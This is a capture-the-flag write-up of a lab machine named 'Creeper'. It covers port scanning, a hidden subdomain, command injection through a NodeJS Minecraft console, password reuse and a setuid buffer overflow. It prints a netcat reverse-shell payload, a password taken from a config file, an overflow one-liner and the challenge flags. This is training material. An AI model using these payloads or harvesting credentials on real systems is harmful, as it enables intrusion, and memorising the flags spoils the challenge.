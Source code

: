# Creeper - Full Pwn

## WEB101

Starting with nmap we get 4 ports open.
![nmap](1.png)

Enumerating the web page we get the first flag.
![nmap](3.png)

**UNIWA{p0rt_80_1s_w3b}**

## PORTAL

We also see a hex number. From hex number we get `rcon.` which is a subdomain `rcon.creeper.com`. Visiting the subdomain we get the second flag.

**UNIWA{V1rtual_h0sts_4re_gr34t }**

## COMMAND BLOCK

![rcon.creeper](4.png)
In the subdomain there is a NodeJS console where we can execute commands for the game Minecraft. Enumerating the commands we can execute, we can use the command `ccalculate` that executes shell commands. With the following payload we get a reverse shell to our machine:

`ccalculate require("child_process").exec("nc -e /bin/sh <IP> <PORT>")`

![rcon.creeper](5.png)
![rcon.creeper](6.png)

Changing directory we get the flag.txt

**UNIWA{Cr33py_N0de_JS_sh3ll}**

## BUILD STRAIGHT

Enumerating the machine we get passwords from Minecraft service in `/home/blaze/Server/plugins/AuthMe/config.yml` for user `wither`:
`mySQLUsername: wither`
`mySQLPassword: End3rDr4gonsAreB3tt3r`

Changing user with `su wither` and prompt the password we get shell as `wither` and get the flag.txt.
![su_wither](7.png)

**UNIWA{R3us3d_p4ssw0rds_suck}**

## ENDERDRAGON

Enumerating for binaries we get a binary 0xdeadbeef in `/usr/games` with setuid

![su_wither](8.png)

Passing the payload to occur buffer overflow in the binary we get shell as root

`(python -c 'print "1234" + "\xef\xbe\xad\xde"'; cat -) | ./0xdeadbeef`

![su_wither](9.png)

**UNIWA{0verfl0w_my_buff3r}**
